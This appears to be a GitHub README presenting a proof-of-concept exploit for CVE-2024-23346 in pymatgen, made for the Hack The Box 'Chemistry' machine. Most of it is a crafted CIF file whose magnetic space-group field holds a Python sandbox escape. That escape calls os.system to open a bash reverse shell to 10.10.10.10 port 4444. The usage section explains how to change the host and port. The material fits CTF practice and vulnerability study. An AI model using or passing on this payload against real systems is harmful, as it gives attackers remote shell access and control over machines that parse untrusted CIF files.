 # CVE-2024-23346 (Chemistry - HTB)

This repository contains a Crystallographic Information File (CIF) intended for use on the "Chemistry" machine on Hack The Box (HTB).

## CIF File Example

```text
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

## Usage
A system command is embedded in the ```_space_group_magn.transform_BNS_Pp_abc``` field. Modify the the ```system("/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1'")``` portion to suit your specific network or system requirements.

## Note
This file is provided for educational purposes only.

## Sources
- [thecybersecguru.com Chemistry Beginner's Guide](https://thecybersecguru.com/ctf-walkthroughs/mastering-chemistry-beginners-guide-from-hackthebox/) 
- [ethicalhacking](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0)
- [github - pymatgen](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
